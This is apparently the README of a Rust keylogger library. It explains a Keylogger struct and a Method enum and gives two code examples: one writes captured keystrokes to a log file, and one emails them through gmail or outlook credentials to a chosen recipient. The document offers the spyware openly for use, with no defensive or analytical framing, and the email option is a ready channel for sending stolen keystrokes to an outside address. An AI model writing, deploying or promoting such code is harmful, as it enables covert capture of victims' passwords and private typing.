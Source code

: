 # Keylogger in Rust

## Getting Started
The Rust Keylogger depends on two objecs, the `Keylogger` struct, and the `Method` enum, which is used to define how to handle a buffer; the buffer being the collected keystrokes which are then either sent through email or saved in an arbitrary file.

## Examples
Initializing a keylogger to write the keystrokes into a file
```rust
use std::io::Result;
use keylogger::{
    Keylogger,
    Method
};

fn main() -> Result<()> {
    let mut keylogger = Keylogger::new(
        Method::File {path : "path/to/log.txt"}
    );
    keylogger.start()?;
    Ok(())
}
```

Initializing a keylogger to send the keystrokes through email. Implemented email domains are *gmail.com* and *outlook.com*.
```rust
use std::io::Result;
use keylogger::{
    Keylogger,
    Method
};

fn main() -> Result<()> {
    let mut keylogger = Keylogger::new(
        Method::Email {
                email : "your_email@outlook.com",
             password : "your_outlook_password",
            recipient : "email_to_send_the_keystrokes_to@example.com"
        }
    );
    keylogger.start()?;
    Ok(())
}
```
